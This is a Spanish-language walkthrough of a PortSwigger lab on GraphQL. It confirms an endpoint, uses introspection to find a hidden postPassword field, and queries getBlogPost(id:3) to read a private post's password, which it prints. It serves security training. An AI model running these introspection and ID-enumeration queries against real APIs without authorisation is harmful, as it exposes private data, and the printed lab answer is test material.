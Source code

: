 # Lab: Accessing private GraphQL posts

The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password.

Learn more about [Working with GraphQL in Burp Suite](https://portswigger.net/burp/documentation/desktop/testing-workflow/working-with-graphql).

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/300c9221-0665-430d-8841-d0eb206e32fe)

Como podemos ver, se nos tramita el endpoint `/graphql/v1` que nos habilita la pestaña `GraphQL`, por lo que tenemos la certeza que nos encontramos ante un endpoint `GraphQL`:
![image](https://github.com/user-attachments/assets/70949a69-079c-4193-94b1-8a77a9bbc9bc)

Podemos observar que estamos tramitando lo siguiente:
![image](https://github.com/user-attachments/assets/5ec42af4-8d7b-4759-af09-8f8f2596cf3a)

- Estamos enviando una consulta `query getBlogSummaries` al endpoint `POST /graphql/v1`.

- En la pestaña `GraphQL`, estamos pidiendo los campos `image`, `title`, `summary`, e `id` de todos los posts de blog (`getAllBlogPosts`).
```json
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}
```
- La respuesta muestra los datos correspondientes, lo que confirma que la consulta se procesó correctamente:
```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/3.jpg",
        "title": "Apps For Everything",
        "summary": "I have a really rubbish cell, it doesn't have enough memory for anything more than the default Apps. Of course, it's not quite a Nokia 1011, but it may as well be. As someone that always had a PC, and...",
        "id": 4
      },
      {
        "image": "/image/blog/posts/62.jpg",
        "title": "No Silly Names, Please",
        "summary": "We hear about it all the time, the unusual names people have given their children. I say unusual to be polite because, to be honest, some of them are just downright ridiculous. Have these parents no idea of the pressure...",
        "id": 5
      },
      {
        "image": "/image/blog/posts/7.jpg",
        "title": "Faking It! - InstaCam",
        "summary": "People are going to extreme lengths to pull the wool over their friends' eyes on Social Media. If you've ever clicked your way through family photos and the perfect summer and winter getaway pics of your friends on Instagram then...",
        "id": 1
      },
      {
        "image": "/image/blog/posts/11.jpg",
        "title": "Identity Theft",
        "summary": "I'm guessing all the people that used to steal people's identities by rifling through their garbage cans, looking for private banking details, are probably very fat and lazy now. With so many working from home opportunities available, in this golden...",
        "id": 2
      }
    ]
  }
}
```
## 🔍 Explicación paso a paso de la respuesta GraphQL

### 1. `data`

Este es el objeto raíz que envuelve la respuesta de una consulta GraphQL.

Siempre que no haya errores, GraphQL devuelve un objeto con una clave `data` que contiene el resultado de la operación.

---

### 2. `getAllBlogPosts`

Es el campo (o *resolver*) que corresponde a la consulta enviada desde el cliente.

En este caso, se pidió que devuelva todas las publicaciones del blog, y responde con un array de objetos.

---

### 3. Cada objeto del array contiene:

| Campo     | Descripción                        |
| --------- | ---------------------------------- |
| `image`   | Ruta de la imagen asociada al post |
| `title`   | Título de la publicación           |
| `summary` | Resumen o descripción corta        |
| `id`      | Identificador único del post       |

---

👉 **Estos campos específicos fueron definidos explícitamente en la consulta GraphQL.**

GraphQL **solo devuelve los campos que el cliente pide**, lo que lo diferencia de REST, donde normalmente se recibe un objeto completo con todos los campos posibles.

En resumen, ya tenemos nuestro endpoint `GraphQL` que se tramita por POST.

Adicionalmente haremos la `Uniersal query` para ratificar que nos encontramos efectiamente ante un endpoint `GraphQL`:
```json
{
  "query": "query { __typename }"
}
```
![image](https://github.com/user-attachments/assets/031b8c99-233f-46e7-982b-f52ec1800b2c)

Como recibimos una respuesta del tipo:
```json
{"data": {"__typename": "query"}}
```
Confirmamos que es un endpoint `GraphQL` válido.

---

Nosotros vimos que nos muestra publicaciones con distintos id:
```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/3.jpg",
        "title": "Apps For Everything",
        "summary": "I have a really rubbish cell, it doesn't have enough memory for anything more than the default Apps. Of course, it's not quite a Nokia 1011, but it may as well be. As someone that always had a PC, and...",
        "id": 4
      },
      {
        "image": "/image/blog/posts/62.jpg",
        "title": "No Silly Names, Please",
        "summary": "We hear about it all the time, the unusual names people have given their children. I say unusual to be polite because, to be honest, some of them are just downright ridiculous. Have these parents no idea of the pressure...",
        "id": 5
      },
      {
        "image": "/image/blog/posts/7.jpg",
        "title": "Faking It! - InstaCam",
        "summary": "People are going to extreme lengths to pull the wool over their friends' eyes on Social Media. If you've ever clicked your way through family photos and the perfect summer and winter getaway pics of your friends on Instagram then...",
        "id": 1
      },
      {
        "image": "/image/blog/posts/11.jpg",
        "title": "Identity Theft",
        "summary": "I'm guessing all the people that used to steal people's identities by rifling through their garbage cans, looking for private banking details, are probably very fat and lazy now. With so many working from home opportunities available, in this golden...",
        "id": 2
      }
    ]
  }
}
```

Primer dato curioso, falta el objeto con `"id":3`.

El siguiente paso lógico es hacer una consulta de introspección. En la misma consulta hacemos clic derecho y seleccionamos `GraphQL > Set introspection query`:
![image](https://github.com/user-attachments/assets/4752e218-f3d1-4dd0-98cc-6b91c907d569)

La introspección reveló que cada post contiene los siguientes campos adicionales que no estaban siendo devueltos por defecto en las consultas:
| Campo          | Tipo         | Descripción                     |
| -------------- | ------------ | ------------------------------- |
| `author`       | `String!`    | Nombre del autor del post       |
| `date`         | `Timestamp!` | Fecha de publicación del post   |
| `paragraphs`   | `[String!]!` | Lista de párrafos del contenido |
| `isPrivate`    | `Boolean!`   | Marca si el post es privado     |
| `postPassword` | `String`     | Contraseña asociada al post 🔥  |

El siguiente paso entonces es agregar a la consulta el campo `postPassword`:
![image](https://github.com/user-attachments/assets/935ed213-43e2-45d2-bfac-ef31a32c438c)

Vemos que todas las respuestas contienen el campo `"postPassword":null`. También seguimos notando que no está mostrando el elemento con `"id":3`.

El resolver `getAllBlogPosts` omite ese post a propósito. Posiblemente:

- `id: 3` tiene el campo `isPrivate: true`, y este resolver solo devuelve publicaciones públicas.

- O bien, el servidor filtra los resultados por otros criterios (por ejemplo, moderación o publicación pendiente).

  

Si volvemos a la Instrospecion query, observamos que nos arroja un resolver llamado `getBlogPost`:
![image](https://github.com/user-attachments/assets/a648d998-278a-441d-a4b4-00fdc99d4028)

Esto indica que:

📌 `getBlogPost`
- Es una query (una operación raíz del esquema).

- Recibe un argumento obligatorio (id de tipo Int).

- Devuelve un objeto del tipo BlogPost

Explotación:
```json
query getBlogSummaries {
    getBlogPost(id:3) {
        title
        summary
        postPassword
    }
}
```

Enviamos la request y obtenemos `"postPassword": "qx4hmk83rhp46ec3g40txo2z54linmlj"`:
![image](https://github.com/user-attachments/assets/1d9b2c24-d459-440a-9b0b-7c9f41cd63d0)







